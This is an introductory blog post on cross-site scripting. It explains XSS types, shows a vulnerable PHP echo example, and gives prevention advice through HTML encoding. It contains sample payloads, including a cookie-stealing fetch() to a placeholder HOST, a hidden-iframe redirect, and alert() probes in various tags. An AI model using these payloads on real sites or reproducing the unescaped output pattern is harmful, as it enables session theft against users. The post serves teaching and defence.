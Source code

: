 ```yaml
---
layout:     post
title:      "Cross Site Scripting"
subtitle:   "Introduction to XSS"
date:       2016-08-25 6:00:00
author:     "W3ndige"
header-img: "img/cross-site-scripting-header.jpg"
---
```

<h1>What is XSS?</h1>
<p>Cross Site Scripting (XSS) is a name of one of the most common vulnerability in web applications. It's third in the list of the newest <a href="https://www.owasp.org/index.php/Top10">OWASP Top Ten</a> document so it's essential to know how it works. </p>
<p>Browsers diplay the content of a website using a mix of HTML (HyperText Markup Language which is a core of a webpage) and JavaScript responsible for making things run in response of events (like clicking a button). Of course there are other essential elements like CSS to style the webpage but in order to perform a XSS attack we will only need HTML and Javascript. </p>
<p>Essence of XSS attack is to inject some malicous code (for example Javascript or other scripting language that can be opened in a browser) into the browser of client using vulnerable web application. That way, an attacker has an ability to execute any malicious code in victim's browser. </p>
<p>But why is it so powerul? Let's consider this example: You're running some simple WordPress website with small audience. As you don't want spammers to make comments under your posts, you enable the option to only publish comments allowed by yourself. In the meantime some malicous hacker wanted to destroy your webpage (who knows why but there are still people like that). He firstly tests if you really have to allow comments, and then injects into the comment box malicious JavaScript code that will steal cookies and send them to him. Now as you've got a notification that someone published a new comment, you open the WordPress admin page to see what someone has written. In the moment you view this comment, this malicous code steals your admin cookie and sends it to the attacker. Few hours later your site has been pawned. </p>
<p>Powefull, right? But enough story time for today, let's jump into some technical details. </p>








<h1>Potential results of XSS attack</h1>
<ul>
<li><b>Stealing session cookies</b>
<p>With that attacker is being able to steal someone's logged session - like in the story.</p>
{% highlight html %}
<svg onload=fetch(‘//HOST/?cookie=’+document.cookie)>
{% endhighlight %}
</li>
<li><b>Substituting a content of a website</b>
<p>Users can be tricked into thinking that "Your site have been hacked".</p>
{% highlight html %}
<svg onload=”document.body.innerHTML='<img src=//HOST/IMAGE>'”>
{% endhighlight %}
</li>
<li><b>Capture the keys pressed by the user</b>
<p>Ability to log what someone is writing... I don't have to say why it's useful ;)</p>

</li>
<li><b>Crash the browser</b>
<p>Local Denial Of Service Attack. Mostly frustrating.</p>
</li>
<li>
<b>Redirect user’s browser to another website</b>
<p>Attacker can redirect the browser to another webpage that may be prepared with some customized malware ready to attack victims operating system. </p>
{% highlight html %}
<iframe src=//HOST/ style=display:none></iframe>
{% endhighlight %}
</li>
<li>
<b>Creating fake HTML form</b>
<p>Where an attacker would be able to trick user into entering their credentials and form would send them to an attacker. </p>
</li>
</ul>

<h1>Types of XSS attacks</h1>
<p><b>Persistent (stored) XSS</b> - This type of attack relies on the fact that webpage may store some input, or file in a database. Just like in our story, comments were stored in the WordPress database. It consists of injecting the javascript code into the server side. That's why it's called stored. Every user that sees this stored content is a potential victim. </p>
<p><b>Reflected XSS</b> - When the website or application just reflects back content maliciously manipulated by user (usually in the URL), we have a reflected XSS attack. Victim usually unwittingly opens a link with some JavaScript code which is sent to the web application. Then this application sends back (that's why reflected) whatever the victim asked for with this JavaScript code resulting in executing it in the browser. </p>
<p>Let's take a look at this simple PHP code: </p>
{% highlight php %}
$username = $_GET[‘user’];
echo “<h1>Welcome, ” . $username . “!</h1>”;
{% endhighlight %}
<p>Which would take an username from the URL just like that: </p>
{% highlight html %}
http://example.com/welcome.php?user=Mike
{% endhighlight %}
<p>If you open the web and view the source code it would look like this</p>
{% highlight html %}
<h1>Hello, John!</h1>
{% endhighlight %}
<p>But what if we swap the name with some JavaScript code? </p>
{% highlight html %}
http://example.com/welcome.php?user=<script>alert("XSS")</script>
{% endhighlight %}
<p>After checking the source code of the same webpage opened with this URL, you would notice that the alert box with "XSS" text was triggered.   </p>
{% highlight html %}
<h1>Hello, <script>alert("XSS")</script>!</h1>
{% endhighlight %}
<p>Now with that knowledge you can enter some more malicous code. Reflected XSS attack ready ;)</p>

<p><b>DOM Based XSS</b> is an attack where the malicious code is executed as a result of modyfing DOM (Document Object Model). It's rarest type of XSS attack. Read more at <a href="https://www.owasp.org/index.php/DOM_Based_XSS">OWASP</a>.</p>

<h1>XSS Examples</h1>
<p><b>1. With script tag</b></p>
{% highlight html %}
<script>alert("XSS")</script>
{% endhighlight %}
<p><b>2. With body tag</b></p>
{% highlight html %}
<p><body onload=alert("XSS")></p>
{% endhighlight %}
<p><b>3. With img tag</b></p>
{% highlight html %}
<p><img src="blabla" onerror="alert("XSS")></img></p>
{% endhighlight %}
<p><b>4. Or any other tag</b></p>
{% highlight html %}
<svg onload=alert("XSS")>
{% endhighlight %}
{% highlight html %}
<x onmouseover=alert("XSS")>
{% endhighlight %}
<p><b>5. Resource tag like iframe</b></p>
{% highlight html %}
<iframe src=javascript:alert("XSS")>
{% endhighlight %}
<p><b>6. Or object tag</b></p>
{% highlight html %}
<object data=javascript:alert("XSS")>
{% endhighlight %}
<h1>How to prevent XSS?</h1>
<p>All right, as we know how XSS attacks works, let's move on to prevention. Essential thing to do is to filter any data sent from the user before viewing them in application (like "<" and ">", tag attributes or HTML entities ). </p>
{% highlight html %}
& --> &amp;
< --> &lt;
> --> &gt;
" --> &quot;
' --> &#x27;     
/ --> &#x2F;
{% endhighlight %}
<p>That method will prevent most of the XSS attacks but for the most sophisticated ones it may be helpful to read <a href="https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet">XSS Prevention Sheet</a>. Another helpful thing would be prevention on the client side - like installing NoScript addition. </p>

<p>As always - thanks for reading and exploring this topic with me. Now after better understanding of XSS we can look for vulnerabilities in many different web applications. Good luck and...</p>
<p>~ Stay safe! </p>
